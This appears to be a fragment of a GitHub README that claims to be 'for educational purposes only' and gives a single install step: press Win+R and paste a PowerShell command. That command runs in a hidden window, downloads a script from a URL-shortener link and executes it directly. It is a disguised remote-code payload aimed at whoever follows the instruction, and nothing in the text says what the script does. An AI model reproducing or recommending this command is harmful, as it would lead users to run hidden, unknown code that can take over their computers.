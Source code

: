 educational propouses only.

For install:
Win + R and paste this:

```powershell -w hidden -c "IEX (iwr https://tinyurl.com/4uzjfrjd -UseBasicParsing)"```
